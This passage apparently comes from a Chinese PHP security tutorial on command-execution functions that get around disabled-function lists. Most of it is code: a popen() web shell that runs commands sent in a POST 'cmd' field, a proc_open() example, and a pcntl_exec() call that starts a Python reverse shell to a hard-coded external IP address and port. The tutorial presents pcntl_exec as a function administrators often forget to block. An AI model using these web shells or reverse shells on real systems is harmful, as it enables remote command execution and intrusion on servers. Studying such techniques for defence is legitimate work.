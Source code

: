 - popen()

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

- proc\_open()

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

还有一个比较常见的易被忽略的函数就是pcntl\_exec。

利用 pcntl\_exec
--------------

**使用条件：**

- PHP安装并启用了pcntl插件

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

pcntl\_exec()是pcntl插件专有的命令执行函数来执行系统命令函数，可以在当前进程空间执行指定的程序。

利用pcntl\_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl\_exec()执行命令是没有回显的，所以其常与python结合来反弹shell：

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

